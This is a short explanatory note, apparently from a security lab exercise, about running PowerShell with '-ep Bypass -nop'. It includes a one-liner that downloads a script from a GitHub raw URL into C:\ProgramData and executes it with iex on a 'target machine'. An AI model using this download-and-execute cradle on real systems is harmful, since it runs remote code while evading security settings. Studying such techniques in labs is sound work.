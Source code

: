 As part of the command line enter.

```
-ep Bypass -nop
```

so the example would be:
powershell.exe -ep Bypass -nop myfile.ps1

or more specifically
ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"


    he -ep Bypass -nop flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
    The DownloadFile method pulls a file (in this case, IS.ps1) from a remote server (https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1) and saves it in the C:\\ProgramData\\ directory on the target machine.
    Once downloaded, the script is executed with PowerShell using the iex command, which triggers the downloaded s.ps1 file.



